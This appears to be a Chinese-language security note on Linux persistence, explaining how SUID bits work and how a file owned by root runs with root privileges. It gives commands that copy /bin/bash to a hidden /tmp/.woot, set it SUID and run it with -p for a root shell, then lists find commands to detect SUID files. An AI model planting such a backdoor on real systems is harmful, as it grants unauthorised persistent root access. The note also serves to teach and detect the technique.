 当一个文件所属主的x标志位为s(set uid简称suid)时，且所属主为root时，当执行该文件时，其实是以root身份执行的。必要条件：

~~~
1、SUID权限仅对二进制程序有效。
2、执行者对于该程序需要具有x的可执行权限
3、本权限仅在执行该程序的过程中有效
4、在执行过程中执行者将具有该程序拥有者的权限
~~~

创建suid权限的文件：

~~~
cp /bin/bash /tmp/.woot
chmod 4755 /tmp/.woot
ls -al /tmp/.woot
-rwsr-xr-x 1 root root 690668 Jul 24 17:14 .woot
~~~

~~~
/tmp/.woot
/tmp/.woot -p //bash2 针对 suid 有一些护卫的措施，使用-p参数来获取一个root shell
~~~

使用-p参数来获取一个root shell. 这个euid的意思是 effective user id（关于这些ID的知识，可以戳[[这里](https://blog.csdn.net/fatshaw/article/details/6171035)]）

![image-20220921210656227](权限维持.assets/image-20220921210656227.png)

检测：查找具有suid权限的文件即可

~~~
find / -perm +4000 -ls
find / -perm -u=s -type f 2>/dev/null
~~~
